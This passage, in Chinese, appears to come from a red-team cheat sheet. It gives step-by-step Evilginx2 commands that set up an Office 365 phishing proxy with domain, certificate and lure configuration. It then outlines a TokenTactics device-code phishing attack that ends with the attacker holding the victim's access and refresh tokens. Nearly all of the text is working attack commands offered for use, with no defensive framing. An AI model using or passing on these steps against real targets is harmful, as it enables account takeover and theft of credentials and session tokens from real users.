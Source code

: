   #### Evilginx2钓鱼
	PS C:\Tools> evilginx2 -p C:\Tools\evilginx2\phishlets
	: config domain username.corp
	: config ip 10.10.10.10
	: phishlets hostname o365 login.username.corp
	: phishlets get-hosts o365

	为 login.login.username.corp 和 www.login.username.corp 创建一个 DNS 条目，类型 A，指向您的计算机
	复制证书并启用网络钓鱼
	PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\ca.crt C:\Users\Username\.evilginx\crt\login.username.corp\o365.crt
	PS C:\Tools> Copy-Item C:\Users\Username\.evilginx\crt\private.key C:\Users\Username\.evilginx\crt\login.username.corp\o365.key
	: phishlets enable o365

	获取钓鱼网址
	: lures create o365
	: lures get-url 0
  #### 设备代码钓鱼
  	要求：

	Azure AD / Office 365 E3 订阅
	开发：

	导入TokenTactics：PS C:\TokenTactics> Import-Module .\TokenTactics.psd1
	使用 TokenTactics 请求 Azure Graph API 的设备代码：Get-AzureToken -Client Graph
	<REPLACE-WITH-DEVCODE-FROM-TOKENTACTICS>在钓鱼邮件中替换
	让 TokenTactics 在 PowerShell 窗口中运行并发送网络钓鱼电子邮件
	目标用户将点击https://microsoft.com/devicelogin的链接并填写设备代码表
	享受您的访问令牌和刷新令牌
